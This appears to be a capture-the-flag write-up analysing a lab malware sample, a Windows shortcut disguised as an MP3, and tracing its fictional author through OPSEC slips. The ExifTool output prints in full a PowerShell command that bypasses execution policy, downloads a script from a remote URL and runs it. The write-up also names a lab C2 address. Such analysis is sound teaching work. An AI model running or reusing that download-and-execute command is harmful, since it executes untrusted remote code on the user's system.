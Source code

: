 # Task 7 [Day1] Malware Analysis Report

## Overview
This report outlines the investigation of a malicious file masquerading as a valid MP3. The analysis reveals a targeted attack involving a Windows shortcut (.lnk) that executes a PowerShell command to download and execute a malicious script. The investigation tracks the malicious actor and their OPSEC failures.

---

## Investigation Steps

### Step 1: Verify the File Type of `song.mp3`
**Command Used:**
```bash
file song.mp3
```
**Output:**
```text
song.mp3: Audio file with ID3 version 2.3.0, contains: MPEG ADTS, layer III, v1, 192 kbps, 44.1 kHz, Stereo
```
Initial inspection indicated that `song.mp3` was a typical MP3 file. However, further investigation revealed inconsistencies.

### Step 2: Check the File Type of `somg.mp3`
**Command Used:**
```bash
file somg.mp3
```
**Output:**
```text
somg.mp3: MS Windows shortcut, Item id list present, Points to a file or directory, Has Relative path, Has Working directory, Has command line arguments, Archive, ctime=Sat Sep 15 07:14:14 2018, mtime=Sat Sep 15 07:14:14 2018, atime=Sat Sep 15 07:14:14 2018, length=448000, window=hide
```
Analysis revealed that `somg.mp3` was not an MP3 file but a malicious Windows shortcut (.lnk) capable of executing commands. This raised a security red flag.

### Step 3: Analyze the Shortcut with ExifTool
**Command Used:**
```bash
exiftool somg.mp3
```
**Output:**
```text
Relative Path                   : ..\..\..\Windows\System32\WindowsPowerShell\v1.0\powershell.exe
Working Directory               : C:\Windows\System32\WindowsPowerShell\v1.0
Command Line Arguments          : -ep Bypass -nop -c "(New-Object Net.WebClient).DownloadFile('https://raw.githubusercontent.com/MM-WarevilleTHM/IS/refs/heads/main/IS.ps1','C:\ProgramData\s.ps1'); iex (Get-Content 'C:\ProgramData\s.ps1' -Raw)"
Machine ID                      : win-base-2019
```
The shortcut points to `powershell.exe` and executes a PowerShell command that:
1. Disables PowerShell restrictions.
2. Downloads a malicious script (`IS.ps1`) from a remote server.
3. Executes the script to compromise the system.

---

## Malicious Actor Investigation

### PowerShell Script Details
The script contained a signature: **"Created by the one and only M.M."** This led to further investigation on GitHub.

### Searching GitHub for "M.M."
Using the signature as a query, I identified a GitHub repository linked to the attacker. The repository contained a single commit and comments by the attacker, "MM," which revealed their identity as **Mayor Malware.**

### OPSEC Failure
The attacker used the same handle "MM" across platforms, leaving a trail of evidence that allowed attribution.

---

## Key Findings
- **Author of the Song (song.mp3):** Tyler Ramsbey
- **C2 Server URL:** `http://papash3ll.thm/data`
- **Malicious Actor Identified:** Mayor Malware
- **GitHub Repository Details:**
  - Repository linked to "M.M."
  - Number of commits: 1

---

## Conclusion
The malicious actor exploited a Windows shortcut file to execute a PowerShell command and download a malicious script. OPSEC failures, such as the reuse of a distinctive signature and GitHub handle, enabled attribution to **Mayor Malware.** This analysis highlights the importance of vigilance in detecting suspicious files and tracking attackers through their digital footprints.

---

## Recommendations
1. Avoid executing files with suspicious extensions.
2. Use tools like `file` and `exiftool` to analyze files before opening.
3. Monitor GitHub and other platforms for malicious activities.
4. Strengthen PowerShell restrictions to prevent unauthorized script execution.

---

## Tools Used
- **file:** To identify the file type.
- **ExifTool:** To extract metadata from the shortcut file.
- **GitHub Search:** To investigate the attacker’s digital footprint.
